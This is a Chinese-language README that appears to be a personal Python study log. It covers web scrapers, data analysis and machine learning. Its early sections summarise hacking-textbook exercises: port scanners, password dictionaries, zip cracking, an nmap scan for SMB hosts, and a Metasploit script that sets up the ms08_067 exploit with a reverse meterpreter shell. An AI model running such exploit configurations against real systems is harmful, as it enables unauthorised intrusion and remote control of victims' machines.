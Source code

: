 # learn-python
###20160510 python 灰帽编程 3   
  ip、port扫描器；生成ip段。
###20160510 python 灰帽编程 4   
  解析域名，生成用户名-口令 字典，包括根据域名生成的用户名口令。
###20160705 python绝技 
####retBanner.py
  socket扫描ip，port，通过返回的banner查询vulnerable.txt
####zippass.py
  zFile = zipfile.ZipFile('evil.zip', 'r')
  zFile.extractall(pwd='password')
  使用多线程：
  t = Thread(target = functionname, args = (args))
  t.start
####4scanner.py
  argparse解析命令行参数
  参数用-h会与默认的帮助的-h冲突
  命令行下运行时需要使用python name.py
  --portlist --后的是变量名
  nargs = '*' 可是多个变量（端口）

```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
####2-5-conficker.py
  使用python nmap发现主机（扫描）
```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
  使用python为metasploit配置.rc文件，操作metasploit：
```python
configFile.write('use exploit/windows/smb/psexec\n')
  ...
  configFile = open('meta.rc', 'w')
```
####2-6-freeFloat.py
  写PoC
```shell
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 192.168.1.37
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 192.168.77.77
  set LPORT 7777
  exploit –j –z
```
  为了利用Metasploit的攻击，我们选择我们的Exploit(exploit/windows/smb/ms08_067_netapi)，然后设置目标为192.168.1.37。接下来我们指定攻击荷载为windows/meterpreter/reverse_tcp选择反向连接到我们的192.168.77.77的7777端口上，最后我们告诉Metasploit开始攻击系统。保存配置文件为conficker.rc，我们可以通过命令
  msfconsole -r conficker.rc
  来启动我们的攻击。这个命令会告诉Metasploit根据conficker.rc来启动攻击。如果成功，我们的攻击会返回一个命令行Shell来控制对方电脑。 

####32recycle.py 
  用Python 将用户的SID 关联起来:通过检查 Windows 注册表键值HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\<SID>\ProfileImagePath，我们可以看到它返回 一个是%SystemDrive%\Documents and Settings\<USERID>。在下图中，我 们看到这允许我们将SID 为S-1-5-21-1275210071-1715567821-725345543- 1005 转化为用户名“alex”。
  ```python
  key = _winreg.OpenKey(_winreg.HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\\" + sid)
              (value, type) = _winreg.QueryValueEx(key, "ProfileImagePath")
              user = value.split('\\')[-1]
  ```

###20161204 使用python抓取并分析数据—链家网(requests+BeautifulSoup)
	http://bluewhale.cc/2016-12-04/use-python-crawl-and-analysis-data-lianjia-requests-and-beautifulsoup.html
	scipy的安装问题【scipy-0.15.1-win32-superpack-python2.7.exe安装包】
	pandas入门 http://pda.readthedocs.io/en/latest/chp5.html
	sklearn 是一个 Python 的 科学计算库，提供了数种聚类算法可供选择；numpy、scipy 是 Python 的科学运算库，matplotlib 是图形库，用于绘图。http://www.jianshu.com/p/93c03a09d689
###20161220 renrendai爬虫与贷款数据分析
  画图，pandas中数据的分类统计；
  ```python
  #按贷款目的汇总贷款笔数
  title_count=rrd.groupby('title')['amount'].agg('count')
  ```
###20161227 python机器学习sklearn
  官方例子：\learn-python\sklearn\plot_digits_classification.py
  from sklearn import datasets 自带数据集
  digits = datasets.load_digits() 手写数字数据
  SVM分类，前一半训练，后一半预测（分类）
  ```python
  # Create a classifier: a support vector classifier
  classifier = svm.SVC(gamma=0.001)
  # We learn the digits on the first half of the digits
  classifier.fit(data[:n_samples / 2], digits.target[:n_samples / 2])
  # Now predict the value of the digit on the second half:
  expected = digits.target[n_samples / 2:]
  predicted = classifier.predict(data[n_samples / 2:])
  ```
  画图
  ```python
  #使用方法：subplot（m,n,p）subplot是将多个图画到一个平面上的工具。
  # 其中，m表示是图排成m行，n表示图排成n列，也就是整个figure中有n个图是排成一行的，
  # 一共m行，如果m=2就是表示2行图。p表示图所在的位置，p=1表示从左到右从上到下的第一个位置。
  plt.subplot(4, 7, index + 15)
  ```
###20170221 NYC_Taxi 使用Python分析纽约出租车搭乘数据
  Read more: http://bluewhale.cc/#ixzz4ZIpKZQqW
  pd操作
###20170222 lianjia_spider 网上的一个链家爬虫，还未测试
###20170223 pygame 未完成
###20170224 socket 用python实现的socket通信
    python socket编程详细介绍 http://blog.csdn.net/rebelqsp/article/details/22109925
    Python Socket 网络编程 http://www.cnblogs.com/hazir/p/python_socket_programming.html
    input()与raw_input()：最好用raw_input();
    用socket.sendall();

###20170404 花瓣网图片爬虫     <font color=OrangeRed>好！！！</font>
    learn-python\qiubai_crawler、4_grab_huaban_board.py 
    不错的代码，print color函数；多线程；
    ```python
    #get ajax pin data 异步（下拉加载更多）
    url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1])
    
    # 详细使用文档请参考: http://www.saintic.com/blog/204.html
    # user（用户） 下有 board（画板），再下有pin（图片）
    # http://huaban.com/boards/%s/?limit=100 在下拉加载更多的页面上直接请求100个
    # url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1]) 请求到max=pins[-1]个 即最后一个。最多100个
    ```

###scan_ips_ports结合了正则、socket等的简单扫描器

###toutiao spider 通过保存toutiao的图片学用mongodb

###CmdPipe 输出重定向、logging模块

###20170510 调用shodan 

###20170510 Scanless
使用以下几个网站进行扫描：
Scanner Name   | Website
---------------|------------------------------
yougetsignal   | http://www.yougetsignal.com
viewdns        | http://viewdns.info
hackertarget   | https://hackertarget.com
ipfingerprints | http://www.ipfingerprints.com
pingeu         | http://ping.eu
spiderip       | https://spiderip.com
portcheckers   | http://www.portcheckers.com


###20170515 smart_login
 [转]
本项目用于研究和分享各大网站的模拟登陆方式,主要使用selenium+phantomjs或者直接登录的方式,语言采用Python
可以在登录过后得到的cookie维护起来，然后调用requests或者scrapy等进行数据采集，这样数据采集的速度可以得到保证。

###20170519 data_analyse\tableau
蓝鲸的网站分析笔记 使用python和tableau对数据进行抓取及可视化 http://bluewhale.cc/2017-05-05/use-python-and-tableau-to-capture-and-visualize-the-data.html

